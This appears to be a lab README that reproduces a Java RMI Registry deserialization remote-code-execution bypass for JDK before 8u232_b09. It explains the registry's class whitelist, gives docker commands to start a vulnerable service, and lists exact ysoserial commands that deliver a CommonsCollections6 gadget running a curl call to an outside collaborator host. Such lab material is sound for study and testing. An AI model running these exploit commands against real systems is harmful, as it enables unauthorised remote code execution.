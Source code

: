 # Java < JDK8u232_b09 RMI Registry Deserialization Remote Code Execution Bypass

[中文版本(Chinese version)](README.zh-cn.md)

Java Remote Method Invocation (RMI) is used for remote procedure calls in Java. Although remote binding is typically disabled, RMI Registry contains a remote binding functionality that can be exploited. By forging serialized data (implementing the Remote interface or dynamically proxying objects that implement the Remote interface) during the binding process, an attacker can trigger a deserialization vulnerability in the Registry when it processes the data.

Since JDK 8u121, the Registry implements a whitelist restriction for deserialized classes:

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

We need to find exploitable classes within these whitelisted classes. For more details, see [A Discussion on RMI Registry Deserialization Issues](https://blog.0kami.cn/blog/2020/rmi-registry-security-problem-20200206/), this article introduces the bypass methods that use JRMPListener to bypass the whitelist restriction.

References:

- <https://blog.0kami.cn/blog/2020/rmi-registry-security-problem-20200206/>
- <https://github.com/wh1t3p1g/ysoserial>

## Environment Setup

Execute the following commands to compile and start the RMI Registry and server:

```
docker compose build
docker compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

Replace `your-ip` with your server's IP address. The client will use this IP to connect to the server.

After startup, the RMI Registry will be listening on port 1099.

## Vulnerability Reproduction

Use RMIRegistryExploit2 or RMIRegistryExploit3 from [ysoserial](https://github.com/wh1t3p1g/ysoserial)'s exploit package to perform the attack:

```bash
# Start JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
# Launch the attack
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```

![](1.png)

The Registry will return an error, but this is normal and the command will still execute successfully.
